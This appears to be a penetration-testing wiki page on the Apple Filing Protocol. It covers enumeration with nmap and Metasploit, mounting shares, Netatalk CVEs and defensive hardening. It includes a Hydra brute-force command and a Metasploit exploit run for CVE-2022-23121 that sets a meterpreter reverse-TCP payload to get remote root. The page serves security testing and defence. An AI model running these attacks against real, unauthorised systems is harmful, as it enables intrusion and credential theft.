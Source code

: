 # 548 - Pentesting Apple Filing Protocol (AFP)


## Basic Information

The **Apple Filing Protocol** (**AFP**), once known as AppleTalk Filing Protocol, is a specialized network protocol included within **Apple File Service** (**AFS**). It is designed to provide file services for macOS and the classic Mac OS. AFP stands out for supporting Unicode file names, POSIX-style and ACL permissions, resource forks, named extended attributes and sophisticated file-locking mechanisms.

Although AFP has been superseded by SMB in modern macOS releases (SMB is the default since OS X 10.9), it is still encountered in:

* Legacy macOS / Mac OS 9 environments
* NAS appliances (QNAP, Synology, Western Digital, TrueNAS…) that embed the open-source **Netatalk** daemon
* Mixed-OS networks where Time-Machine-over-AFP is still enabled

**Default TCP Port:** **548** (AFP over TCP / DSI)

```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
```
---

## Enumeration

### Quick banner / server info

```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
```
Useful AFP NSE scripts:

| Script | What it does |
|--------|--------------|
| **afp-ls**            | List available AFP volumes and files |
| **afp-brute**         | Password brute-force against AFP login |
| **afp-serverinfo**    | Dump server name, machine type, AFP version, supported UAMs, etc. |
| **afp-showmount**     | List shares together with their ACLs |
| **afp-path-vuln**     | Detects (and can exploit) directory-traversal, CVE-2010-0533 |

The NSE brute-force script can be combined with Hydra/Medusa if more control is required:

```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
```
### Interacting with shares

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
```
*Linux* (using `afpfs-ng` ‑ packaged in most distros)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
```
Once mounted, remember that classic Mac resource-forks are stored as hidden `._*` AppleDouble files – these often hold interesting metadata that DFIR tools miss.

---

## Common Vulnerabilities & Exploitation

### Netatalk unauthenticated RCE chain (2022)

Several NAS vendors shipped **Netatalk ≤3.1.12**. A lack of bounds checking in `parse_entries()` allows an attacker to craft a malicious **AppleDouble** header and obtain **remote root** before authentication (**CVSS 9.8 – CVE-2022-23121**). A full write-up by NCC Group with PoC exploiting Western-Digital PR4100 is available.

Metasploit (>= 6.3) ships the module `exploit/linux/netatalk/parse_entries` which delivers the payload via DSI `WRITE`.

```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
```
If the target runs an affected QNAP/Synology firmware, successful exploitation yields a shell as **root**.

### Netatalk OpenSession heap overflow (2018)

Older Netatalk (3.0.0 - 3.1.11) is vulnerable to an out-of-bounds write in the **DSI OpenSession** handler allowing unauthenticated code execution (**CVE-2018-1160**). A detailed analysis and PoC were published by Tenable Research.

### Other notable issues

* **CVE-2022-22995** – Symlink redirection leading to arbitrary file write / RCE when AppleDouble v2 is enabled (3.1.0 - 3.1.17).
* **CVE-2010-0533** – Directory traversal in Apple Mac OS X 10.6 AFP (detected by `afp-path-vuln.nse`).
* Multiple memory-safety bugs were fixed in **Netatalk 4.x (2024)** – recommend upgrading rather than patching individual CVEs.

---

## Defensive Recommendations

1. **Disable AFP** unless strictly required – use SMB3 or NFS instead.
2. If AFP must stay, **upgrade Netatalk to ≥ 3.1.18 or 4.x**, or apply vendor firmware that back-ports the 2022/2023/2024 patches.
3. Enforce **Strong UAMs** (e.g. *DHX2*), disable clear-text and guest logins.
4. Restrict TCP 548 to trusted subnets and wrap AFP inside a VPN when exposed remotely.
5. Periodically scan with `nmap -p 548 --script afp-*` in CI/CD to catch rogue / downgraded appliances.

---

### [[../generic-hacking/brute-force.md#afp|Brute-Force]]


## References

* Netatalk Security Advisory CVE-2022-23121 – "Arbitrary code execution in parse_entries" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "Exploiting an 18-Year-Old Bug (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>

